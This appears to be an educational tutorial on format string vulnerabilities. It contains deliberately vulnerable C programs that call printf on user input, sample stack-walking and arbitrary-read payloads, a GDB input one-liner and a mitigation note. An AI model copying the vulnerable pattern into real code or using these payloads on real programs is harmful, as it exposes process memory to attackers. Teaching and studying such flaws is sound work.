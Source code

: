 Format string vulnerabilities can be used to **read arbitrary memory** by exploiting the `%x`, `%s`, `%p`, or even `%n` specifiers. These specifiers allow attackers to:

* **Walk the stack** with `%x`, `%p`, or `%llx`.
* **Dereference memory** with `%s` to read from arbitrary addresses.

Here are examples demonstrating **how an attacker can use format strings to read memory**, including specific memory addresses.

---

## 🔍 **1. Reading Stack Memory Using `%x` or `%p`**

```c
#include <stdio.h>

int main() {
    int a = 0xdeadbeef;
    int b = 0xcafebabe;

    printf("Enter input: ");
    char input[256];
    fgets(input, sizeof(input), stdin);

    // ❌ Vulnerable usage
    printf(input);  // attacker controls format string

    return 0;
}
```

### 🧪 Sample Input:

```
%x %x %x %x
```

### 🧠 What Happens:

Each `%x` pops and prints a 4-byte word from the stack, leaking internal memory values, like saved return addresses or variable contents.

---

## 📖 **2. Reading Arbitrary Address Using `%s`**

```c
#include <stdio.h>

int secret = 0x41424344;  // ASCII: "ABCD"

int main() {
    printf("Secret is at: %p\n", &secret);

    char user_input[512];
    fgets(user_input, sizeof(user_input), stdin);

    // ❌ Dangerous: format string not controlled
    printf(user_input);  // `%s` will dereference a pointer

    return 0;
}
```

### 🧪 How to Exploit (from CLI with manual overwrite or scripted input):

If you control stack (e.g., via environment variables or argument offsets), use:

```
"\x10\xa0\x04\x08 %s"     // where 0x0804a010 is the address of `secret`
```

You might need to pad the format string to align with the address using dummy `%x`:

```
"AAAA %x %x %x %s"
```

Or in GDB:

```bash
(gdb) run <<< $(python -c 'print "\x10\xa0\x04\x08AAAA%x%x%x%s"')
```

---

## 🧬 **3. Controlled Address Leak with Argument Position**

Some `printf` implementations allow specifying **argument index**:

```c
printf("%8$s");  // Read 8th argument as string (char *)
```

If you can position your target address in the 8th slot, this will dereference and print it.

---

## 🧠 Summary of Exploitable Format Specifiers

| Specifier | Description                              | Exploit Use                   |
| --------- | ---------------------------------------- | ----------------------------- |
| `%x`      | Print hex from stack                     | Stack walking                 |
| `%p`      | Print pointer                            | Stack walking (more readable) |
| `%s`      | Dereference pointer                      | Arbitrary memory read         |
| `%n`      | Write number of bytes printed to address | Arbitrary memory write        |

---

## 🛡️ Mitigation

* Never pass user input directly as the format string.
* Always use format strings like:

  ```c
  printf("%s", user_input);  // SAFE
  ```



